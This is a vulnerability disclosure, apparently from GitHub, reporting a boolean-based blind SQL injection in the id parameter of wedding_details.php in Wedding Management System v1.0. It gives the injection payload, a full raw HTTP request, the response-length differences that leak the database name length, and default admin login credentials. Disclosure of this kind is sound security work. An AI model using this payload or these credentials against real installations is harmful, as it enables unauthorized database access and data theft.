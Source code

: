 # Wedding Management System v1.0 by codeastr.com has SQL injection

Author： k0xx

The password for the backend login account is: admin@mail.com/Password@123

vendors: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability File: /Wedding-Management/wedding_details.php

Vulnerability location: /Wedding-Management/wedding_details.php?id=,id

[+] Payload: /Wedding-Management/wedding_details.php?id=31%20and%20length(database())%20=9 // Leak place ---> id

Current database name: dbwedding,length is 9

```sql
GET /Wedding-Management/wedding_details.php?id=31%20and%20length(database())%20=9 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
```

When length (database ()) = 8, Content-Length: 4824

![image](https://user-images.githubusercontent.com/54017627/167991476-8707557f-e951-4cee-a1cf-5bfd8132ceef.png)

![image](https://user-images.githubusercontent.com/54017627/167991520-2cbd91ce-d861-44a9-a8ac-e7bbe0bcfcb5.png)

When length (database ()) = 9, Content-Length: 5397

![image](https://user-images.githubusercontent.com/54017627/167991438-2b0fcd25-d996-4805-a6a8-14f2e77a246b.png)

![image](https://user-images.githubusercontent.com/54017627/167991500-2df43851-84fd-4b73-9785-e5f69cb0a8fb.png)

